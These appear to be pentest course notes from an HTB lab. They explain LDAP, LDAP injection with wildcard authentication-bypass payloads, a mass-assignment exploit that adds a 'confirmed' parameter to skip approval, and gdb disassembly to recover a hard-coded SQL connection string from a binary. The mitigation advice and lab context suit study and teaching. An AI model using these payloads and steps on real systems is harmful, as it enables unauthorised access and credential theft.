LDAP is commonly used for providing a central location for accessing and managing directory services. Directory services are collections of information about the organisation, its users, and assets-like usernames and passwords. LDAP enables organisations to store, manage, and secure this information in a standardised way. Some use cases are:

| Use Case | Description |
| -------- | ----------- |
| Authentication | LDAP can be used for central authentication, allowing users to have single login credentials across multiple applications and systems. This is one of the most common use cases for LDAP. |
| Authorisation | LDAP can manage permissions and access control for network resources such as folders or files on a network share. However, this may require additional configuration or integration with protocols like Kerberos. |
| Directory Services | LDAP provides a way to search, retrieve, and modify data stored in a directory, making it helpful for managing large numbers of users and devices in a corporate network. LDAP is based on the X.500 standard for directory services. |
| Synchronisation | LDAP can be used to keep data consistent across multiple systems by replicating changes made in one directory to another. |

There are two popular implementations of LDAP: OpenLDAP, an open-source software widely used and supported, and Microsoft AD, a Windows-based implementation that seamlessly integrates with other Microsoft products and services.

Although LDAP and AD are related, they serve different purposes. LDAP is a protocol that specifies the method of accessing and modifying directory services, whereas AD is a directory service that stores and manages users and computer data. While LDAP can communicate with AD and other directory services, it is not a directory service itself. AD offers extra funtionalities such as policy administration, single sign-on, and integration with various Microsoft products.

LDAP works by using a client-server architecture. A client sends an LDAP request to a server, which searches the directory service and returns a response to the client. LDAP is a protocol that is simpler and more efficient than X.500, on which it is based. It uses a client-server model, where clients send requests to servers using LDAP messages encoded in ASN.1 and transmitted over TCP/IP. The servers process the requests and send back responses using the same format. LDAP supports various requests, such as bind, unbind, search, compare, add, delete, modify, etc.

LDAP requests are messages that clients send to servers to perform operations on data stored in a directory service. An LDAP request is comprised of several components:

1. **Session connection**: The client connects to the server via an LDAP port (_usually 389 or 636_)
2. **Request type**: The client specifies the operation it wants to perform, such as bind, search, etc.
3. **Request parameters**: The client provides additional information for the request, such as the distinguished name of the entry to be accessed or modified, the scope and filter of the search query, the attributes and values to be added or changed, etc.
4. **Request ID**: The client assigns a unique identifier for each request to match it with the corresponding response from the server.

Once the server receives the request, it processes it and sends back a response message that includes several components:

1. **Response type**: The server indicates the operation that was performed in response to the request.
2. **Result code**: The server indicates whether or not the operation was successful and why.
3. **Matched DN**: If applicable, the server returns the DN of the closest existing entry that matches the request.
4. **Referral**: The server returns a URL of another server that may have more information about the request, if applicable.
5. **Response data**: The server returns any additional data related to the response, such as the attributes and values of an entry that was searched or modified.

After receiving and processing the response, the client disconnects from the LDAP port.

### ldapsearch

... is a command-line utility used to search for information stored in a directory using the LDAP protocol. It is commonly used to query and retrieve data from an LDAP directory service.

```bash
d41y@htb[/htb]$ ldapsearch -H ldap://ldap.example.com:389 -D "cn=admin,dc=example,dc=com" -w secret123 -b "ou=people,dc=example,dc=com" "(mail=john.doe@example.com)"
```

This command can be broken down as follows:

- Connect to the server ```ldap.exmaple.com``` on port 389.
- Bind as ```cn=admin,dc=example,dc=com``` with password "secret123".
- Search under the base DN ```ou=people,dc=example,dc=com```.
- Use the filter ```(mail=john.doe@example.com)``` to find entries that have this email address.

The server would process the request and send back a response, which might look something like this:

```
dn: uid=jdoe,ou=people,dc=example,dc=com
objectClass: inetOrgPerson
objectClass: organizationalPerson
objectClass: person
objectClass: top
cn: John Doe
sn: Doe
uid: jdoe
mail: john.doe@example.com

result: 0 Success
```

This response includes the entry's distinguished name that matches the search criteria and its attributes and values.


### LDAP Injection

... is an attack that exploits web applications that use LDAP for authentication or storing user information. The attacker can inject malicious code or chars into LDAP queries to alter the application's behaviour, bypass security measures, and access sensitive data stored in the LDAP directory.

To test LDAP injection, you can use input values that contain special chars or operators that can change the query's meaning:

| Input | Description |
| ----- | ----------- |
| ```*``` | An asterisk can match any number of chars. |
| ```( )``` | Parantheses can group expressions. |
| ```\|``` | A vertical bar can perform logical OR. |
| ```&``` | An ampersand can perform logical AND. |
| ```(cn=*)``` | Input values that try to bypass authentication or authorisation checks by injecting conditions that always evaluate to true can be used. For example, ```(cn=*)``` or ```(objectClass=*)``` can be used as input values for a username or password fields. |

LDAP injection attacks are similar to SQLi attacks but target the LDAP directory service instead of a database.

For example, suppose an application uses the following LDAP query to authenticate users:

```
(&(objectClass=user)(sAMAccountName=$username)(userPassword=$password))
```

In this query, ```$username``` and ```$password``` contain the user's login credentials. An attacker could inject the ```*``` character into the ```$username``` or ```$password``` field to modify the LDAP query and bypass authentication.

If an attacker injects the ```*``` into the ```$username``` field, the LDAP query will match any user account with any password. This would allow the attacker to gain access to the application with any password, as shown below:

```
$username = "*";
$password = "dummy";
(&(objectClass=user)(sAMAccountName=$username)(userPassword=$password))
```

Alternatively, if an attacker injects the ```*``` into the ```$password``` field, the LDAP query would match any user account with any password that contains the injected string. This would allow the attacker to gain access to the application with any username, as shown below:

```
$username = "dummy";
$password = "*";
(&(objectClass=user)(sAMAccountName=$username)(userPassword=$password))
```

LDAP injection attacks can lead to severe consequences, such as unauthorised access to sensitive information, elevated priviliges, and even full control over the affected application or server. These attacks can also considerably impact data integrity and availability, as attackers may alter or remove data within the directory service, causing disruptions to applications and services dependent on that data.

To mitigate the risks associated with LDAP injection attacks, it is crucial to thoroughly validate and sanitize user input before incorporating it into LDAP queries. This process should involve removing LDAP-specific special characters like ```*``` and employing parameterised queries to ensure user input is treated solely as data, not executable code.

### Enumeration

Enumerating the target helps you to understand services and exposed ports.

```bash
d41y@htb[/htb]$ nmap -p- -sC -sV --open --min-rate=1000 10.129.204.229

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 14:43 SAST
Nmap scan report for 10.129.204.229
Host is up (0.18s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 149.73 seconds
```

As OpenLDAP runs on the server, it is safe to assume that the web application running on port 80 uses LDAP for authentication.

Attempting to log in using a wildcard char in the username and password field grants access to the system, effectively bypassing any authentication measures that had been implemented. This is a significant security issue as it allows anyone with knowledge of the vulnerability to gain unauthorised access to the system and potentially sensitive data.

## Web Mass Assignment

Several framekworks offer handy mass-assignment features to lessen the workload for devs. Because of this, programmers can directly insert a whole set of user-entered data from a form into an object or database. This feature is often used without a whitelist for protecting the fields from the user's input. This vuln could be used by an attacker to steal sensitive information or destroy data.

Web mass assignment vulnerability is a type of security vulnerability where attackers can modify the model attributes of an application through the parameters sent to the server. Reversing the code, attackers can see these parameters and by assigning values to critical unprotected parameters during the HTTP request, they can edit the data of a database and change the intended functionality of an application.

Ruby on Rails is a web application framework that is vulnerable to this type of attack. The following example shows how attackers can exploit mass assignment vulnerability in Ruby on Rails. Assuming you have a User model with the following attributes:

```ruby
class User < ActiveRecord::Base
  attr_accessible :username, :email
end
```

The above model specifies that only the username and email attributes are allowed to be mass-assigned. However, attackers can modify other attributes by tampering with the parameters sent to the server. Assume that the server receives the following parameters.

```javascript
{ "user" => { "username" => "hacker", "email" => "hacker@example.com", "admin" => true } }
```

Although the User model does not explicitly state the admin attribute is accessible, the attacker can still change it because it is present in the arguments. Bypassing any access controls that may be in place, the attacker can send this data as part of a POST request to the server establish a user with admin privileges.

### Exploit Mass Assignment

Suppose you come across the following application that features an Asset Manager web app. Also suppose that the application's source code has been provided to you. Completing the registration step, you get the message "Success!!", and you can try to log in.



After login in, you get the message "Account is pending for approval". The administrator of this web app must approve your registration. Reviewing the python code of the ```/opt/asset-manager/app.py``` file reveals the following snippet.

```python
for i,j,k in cur.execute('select * from users where username=? and password=?',(username,password)):
  if k:
    session['user']=i
    return redirect("/home",code=302)
  else:
    return render_template('login.html',value='Account is pending for approval')
```

You can see that the application is checking if the value ```k``` is set. If yes, then it allows the user to log in. In the code below, you can also see that if you set the ```confirmed``` parameter during registration, then it inserts ```cond``` as ```True``` and allows you to bypass the registration checking step.

```python
try:
  if request.form['confirmed']:
    cond=True
except:
      cond=False
with sqlite3.connect("database.db") as con:
  cur = con.cursor()
  cur.execute('select * from users where username=?',(username,))
  if cur.fetchone():
    return render_template('index.html',value='User exists!!')
  else:
    cur.execute('insert into users values(?,?,?)',(username,password,cond))
    con.commit()
    return render_template('index.html',value='Success!!')
```

In that case, what you should try is to register another user and try setting the ```confirmed``` parameter to a random value. Using Burp, you can capture the HTTP POST request to the ```/register``` page and set the parameters ```username=new&password=test&confirmed=test```.



You can now try to log in to the application using the ```new:test``` credentials.


The mass assignment vulnerability is exploited successfully and you are now logged into the web app without waiting for the administrator to approve your registration request.

### Prevention

To prevent this type of attack, one should explicitly assign the attributes for the allowed fields, or use whitelisting methods provided by the framework to check the attributes that can be mass-assigned. The following example shows how to use strong parameters in the ```User``` controller.

```ruby
class UsersController < ApplicationController
  def create
    @user = User.new(user_params)
    if @user.save
      redirect_to @user
    else
      render 'new'
    end
  end

  private

  def user_params
    params.require(:user).permit(:username, :email)
  end
end
```

In the example above, the ```user_params``` method returns a new hash that includes only the ```username``` and ```email``` attributes, ignoring any more input the client may have sent. By doing this, you ensure that only explicitly permitted attributes can be changed by mass assignment.

## Applications Connecting to Services

Applications that are connected to services often include connection strings that can be leaked if they are not protected sufficiently.

### ELF Executable Examination

The octupus_checker binary is found on a remote machine during the testing. Running the application locally reveals that it connects to database instances in order to verify that they are available.

```bash
d41y@htb[/htb]$ ./octopus_checker 

Program had started..
Attempting Connection 
Connecting ... 

The driver reported the following diagnostics whilst running SQLDriverConnect

01000:1:0:[unixODBC][Driver Manager]Can't open lib 'ODBC Driver 17 for SQL Server' : file not found
connected
```

The binary probably connects using a SQL connection string that contains credentials. Using tools like [PEDA](https://github.com/longld/peda) (_Python Exploit Development Assistance for GDB_) you can further examine the file. Running the following command you can execute the binary through it.

```bash
d41y@htb[/htb]$ gdb ./octopus_checker

GNU gdb (Debian 9.2-1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./octopus_checker...
(No debugging symbols found in ./octopus_checker)
```

Once the binary is loaded, you set the disassembly-flavor to define the display style of code, and you proceed with disassembling the main function of the program.

```asm
gdb-peda$ set disassembly-flavor intel
gdb-peda$ disas main

Dump of assembler code for function main:
   0x0000555555555456 <+0>:	endbr64 
   0x000055555555545a <+4>:	push   rbp
   0x000055555555545b <+5>:	mov    rbp,rsp
 
 <SNIP>
 
   0x0000555555555625 <+463>:	call   0x5555555551a0 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x000055555555562a <+468>:	mov    rdx,rax
   0x000055555555562d <+471>:	mov    rax,QWORD PTR [rip+0x299c]        # 0x555555557fd0
   0x0000555555555634 <+478>:	mov    rsi,rax
   0x0000555555555637 <+481>:	mov    rdi,rdx
   0x000055555555563a <+484>:	call   0x5555555551c0 <_ZNSolsEPFRSoS_E@plt>
   0x000055555555563f <+489>:	mov    rbx,QWORD PTR [rbp-0x4a8]
   0x0000555555555646 <+496>:	lea    rax,[rbp-0x4b7]
   0x000055555555564d <+503>:	mov    rdi,rax
   0x0000555555555650 <+506>:	call   0x555555555220 <_ZNSaIcEC1Ev@plt>
   0x0000555555555655 <+511>:	lea    rdx,[rbp-0x4b7]
   0x000055555555565c <+518>:	lea    rax,[rbp-0x4a0]
   0x0000555555555663 <+525>:	lea    rsi,[rip+0xa34]        # 0x55555555609e
   0x000055555555566a <+532>:	mov    rdi,rax
   0x000055555555566d <+535>:	call   0x5555555551f0 <_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1EPKcRKS3_@plt>
   0x0000555555555672 <+540>:	lea    rax,[rbp-0x4a0]
   0x0000555555555679 <+547>:	mov    edx,0x2
   0x000055555555567e <+552>:	mov    rsi,rbx
   0x0000555555555681 <+555>:	mov    rdi,rax
   0x0000555555555684 <+558>:	call   0x555555555329 <_Z13extract_errorNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEEPvs>
   0x0000555555555689 <+563>:	lea    rax,[rbp-0x4a0]
   0x0000555555555690 <+570>:	mov    rdi,rax
   0x0000555555555693 <+573>:	call   0x555555555160 <_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev@plt>
   0x0000555555555698 <+578>:	lea    rax,[rbp-0x4b7]
   0x000055555555569f <+585>:	mov    rdi,rax
   0x00005555555556a2 <+588>:	call   0x5555555551d0 <_ZNSaIcED1Ev@plt>
   0x00005555555556a7 <+593>:	cmp    WORD PTR [rbp-0x4b2],0x0

<SNIP>

   0x0000555555555761 <+779>:	mov    rbx,QWORD PTR [rbp-0x8]
   0x0000555555555765 <+783>:	leave  
   0x0000555555555766 <+784>:	ret    
End of assembler dump.
```

This reveals several call instructions that point to addresses containing strings. They appear to be sections of a SQL connection string, but the sections are not in order, and the endianness entails that the string text is reversed. Endianness defines the order that the bytes are read in different architectures. Further down the function, you see a call to SQLDriverConnect.

```asm
   0x00005555555555ff <+425>:	mov    esi,0x0
   0x0000555555555604 <+430>:	mov    rdi,rax
   0x0000555555555607 <+433>:	call   0x5555555551b0 <SQLDriverConnect@plt>
   0x000055555555560c <+438>:	add    rsp,0x10
   0x0000555555555610 <+442>:	mov    WORD PTR [rbp-0x4b4],ax
```

Addind a breakpoint at this address and running the program once again, reveals a SQL connection string in the RDX register address, containing the creds for a local database instance.

```asm
gdb-peda$ b *0x5555555551b0

Breakpoint 1 at 0x5555555551b0


gdb-peda$ run

Starting program: /htb/rollout/octopus_checker 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Program had started..
Attempting Connection 
[----------------------------------registers-----------------------------------]
RAX: 0x55555556c4f0 --> 0x4b5a ('ZK')
RBX: 0x0 
RCX: 0xfffffffd 
RDX: 0x7fffffffda70 ("DRIVER={ODBC Driver 17 for SQL Server};SERVER=localhost, 1401;UID=username;PWD=password;")
RSI: 0x0 
RDI: 0x55555556c4f0 --> 0x4b5a ('ZK')

<SNIP>
```

